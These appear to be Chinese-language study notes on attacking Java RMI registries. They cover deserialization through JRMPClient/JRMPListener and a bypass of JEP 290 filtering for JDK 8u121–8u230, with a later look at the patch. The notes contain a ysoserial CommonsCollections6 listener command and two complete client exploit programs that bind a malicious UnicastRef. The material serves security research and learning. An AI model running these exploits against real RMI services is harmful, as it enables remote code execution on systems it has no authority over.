

# 总结一下

## 攻击register

### 利用Object类型参数(业务需要,无法修复)

### 通过bind,lookup等方法绑定恶意类

### 利用JRMPClient进行攻击

## 绕过JRMP

在上面的下面两种攻击方法中:

绑定一个`UnicastRef`类,在反序列化时会开启一个端口与我们的恶意`JRMPlister`通信,`JRMPLister`在报错信息中可以`WriteObject`恶意类,`JRMPClient`接收后反序列化触发命令执行


https://blog.51cto.com/u_15127593/4347270

https://www.cnblogs.com/binarylei/p/12115986.html

rmi利用:https://threezh1.com/2020/12/19/JAVA_RMI_Learn/#RMI-%E5%9F%BA%E7%A1%80


https://www.cnpanda.net/sec/968.html

https://paper.seebug.org/1689/

服务端处理 `DGCImpl`的请求过程和 `RegistryImpl` 非常类似，都是在`Transport#serviceCall`中处理，调用 `UnicastServerRef#dispatch`，再调用`UnicastServerRef#oldDispatch` 最后在 `UnicastServerRef#unmarshalCustomCallData` 中为之后进行`readObject` 操作的 `ConnectionInputStream.serialFilter` 赋值为 `DGCImpl::checkInput`。

Spring RMI Remoting 攻击https://blog.csdn.net/qq_43936524/article/details/115506821

https://xz.aliyun.com/t/7930#toc-12

JRMPClient和JRMPLister的原理,可以看看工具是怎么写的,如何通过socket发送的数据

```java
            s = SocketFactory.getDefault().createSocket(hostname, port);
            s.setKeepAlive(true);
            s.setTcpNoDelay(true);
            //获取Socket的输出流
            OutputStream os = s.getOutputStream();
            //将输出流包装成DataOutputStream流对象
            dos = new DataOutputStream(os);
	   final ObjectOutputStream objOut = new MarshalOutputStream(dos);
	   os.flush();

```


# Bypass JEP290

简单总结一下

## 8u121-8u230

通过客户端攻击服务端

服务端:

```java
package jep290;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;

public class JRMPServer {

        public static void main(String[] args) throws RemoteException {

                LocateRegistry.createRegistry(1099);
                System.out.println("RMI Registry Start");

            while (true) ;
        }

}
```

恶意JRMP服务:

```cmd
java -cp ysoserial.jar  ysoserial.exploit.JRMPListener 1199 CommonsCollections6 "calc"
```

client:

```java
package jep290;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;
//Bypass 8u121~8u230
public class JRMPClient {

        public static void main(String[] args) throws Exception {
            Registry registry = LocateRegistry.getRegistry(1099);
            ObjID id = new ObjID(new Random().nextInt());
            TCPEndpoint te = new TCPEndpoint("localhost", 1199);
            UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
            RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(ref);
            System.out.println(System.getProperty("java.version"));
// lookup方法也可以，但需要手动模拟lookup方法的流程
            registry.bind("pwn", handler);
            System.out.println(System.getProperties());
        }
}
```


client绑定一个恶意`UnicastRef`类,里面包含了我们要连接的JRMP服务地址,利用`RemoteObjectInvocationHandler`进行一个封装,因为bind绑定需要实现remote接口,这里用动态代理将我们需要反序列化的`UnicastRef`类加入代理类中,这样在反序列化的时候就会反序列化我们的`UnicastRef`对象,而这个对象是在白名单内的,可以成功被反序列化(`RemoteObjectInvocationHandler`类也是实现Remote接口的,可以被反序列化,这里其实并没有动态代理什么事情,只是为了通过代理实现Remote接口,并且让`UnicastRef`成为一个成员,这样可以被反序列化。因此,我们可以自己创建一个实现Remote接口的类,然后为其一个字段赋值成恶意类,虽然服务端没有这Remote实现类,但是反序列化恢复一个类的时候会先去处理好他的序列化变量，再去进行组装恢复成类。我们触发payload的过程是恢复他的序列化变量的时候，而之后找得到找不到这个类就不重要了)

不用动态代理:

```java
package jep290;

import ysoserial.payloads.ObjectPayload;
import ysoserial.secmgr.ExecCheckingSecurityManager;

import java.io.Serializable;
import java.rmi.Remote;
import java.rmi.registry.Registry;
import java.util.concurrent.Callable;

//加个Remote接口的类，要支持序列化
public class BindExploit implements Remote, Serializable {
    //弄个地方放payload
    private final Object memberValues;

    BindExploit(Object payload) {
        memberValues = payload;
    }
}
```

client:

```java
package jep290;

import org.apache.commons.collections.map.LazyMap;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.lang.annotation.Retention;
import java.lang.reflect.AnnotatedArrayType;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.HashMap;
import java.util.Map;
import java.util.Random;
//Bypass 8u121~8u230
public class JRMPClient {

        public static void main(String[] args) throws Exception {
            Registry registry = LocateRegistry.getRegistry(1099);
            ObjID id = new ObjID(new Random().nextInt());
            TCPEndpoint te = new TCPEndpoint("localhost", 1199);
            UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
           // RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(ref);

            BindExploit handler = new BindExploit(ref);
            System.out.println(System.getProperty("java.version"));
// lookup方法也可以，但需要手动模拟lookup方法的流程
            registry.bind("pwn", handler);
            System.out.println(System.getProperties());
        }
}
```


### 流程分析


这是截取的别人的,我们来看看RegistryImpl的流程

> 服务端处理 `DGCImpl`的请求过程和 `RegistryImpl` 非常类似，都是在`Transport#serviceCall`中处理，调用 `UnicastServerRef#dispatch`，再调用`UnicastServerRef#oldDispatch` 最后在 `UnicastServerRef#unmarshalCustomCallData` 中为之后进行`readObject` 操作的 `ConnectionInputStream.serialFilter` 赋值为 `DGCImpl::checkInput`。

服务端收到请求,我们在`RegistryImpl_Skel#dispatch`中进行了反序列化


这里的`var9`是从`var2`中获得的,`var2`则是传参传进来的,我们进入上一个调用栈


而这里的filter字段实际上是在createRegistry阶段就初始化完成的,默认情况下则是上面的那几个白名单类

再看看我们反序列化的过程

当我们使用代理的方式的时候,此时的调用栈


在remoteObject进行反序列化时,对ref字段进行反序列化,ref则是我们的恶意类




如果不使用动态代理,在反序列化成员的时候也会触发`readExternal()`,该方法也是反序列化的方法之一,反序列化时会自动触发,只不过不像readObject这么常见

反序列化完成后进入


经过如下调用通过lookup完成连接,其中这里的地址则是之前在反序列化的时候封入数据流的


反序列化恶意类


### 修复

第一处:

其实只有一行的区别，在每个动作比如lookup，bind等中都添加了一个逻辑：**如果出现了序列化报错都会进入catch，执行`discardPedingRefs`**。

[](https://xzfile.aliyuncs.com/media/upload/picture/20200622152041-e10e7fd8-b458-1.png)

在`sun.rmi.transport.StreamRemoteCall#discardPendingRefs`中其实也就是做了一件事情，把我们之前装载的`incomingRefTable`清空

```
public void discardPendingRefs() {
    this.in.discardRefs();//去下面
}
//sun.rmi.transport.ConnectionInputStream#discardRefs
void discardRefs() {
    this.incomingRefTable.clear();//消除incomingRefTable里面我们的ref
}
```

那么很清楚假如我们的payload在序列化中发生了报错，那么我们想尽办法装载的ref就会被干掉。再回头看看我们的那么多种payload都会报错么？

1. **自定义类（动态代理或接口）**：报错ClassNotFoundException

   因为我们传入的类虽然会完成装载，但是在后续的序列化逻辑中肯定是会因为找不到我们的恶意类而发生ClassNotFoundException报错的。

   被干掉了。

2. **动态代理转换接口或者找内置接口**：报错ClassCastException

   而其他的payload虽然因为都是有内置类的，这些内置类在序列化的时候`var9.readObject();`是没问题的。

   但是这里还有一个类型转换的逻辑`var8 = (String)var9.readObject();`在类型转换的时候就会发生报错。

   从而也被干掉了。

第二处:


对比一下代码,这里将设置过滤器的代码放在了反序列化payload前面,

## 8u231-8u240

https://xz.aliyun.com/t/7930#toc-11

https://xz.aliyun.com/t/7932#toc-2

写的很好,也有很多思维上的拓展,研究也比较深,感觉先梳理一下再看


其中有个关键点,就是关于为什么需要修改这个`enableReplace`

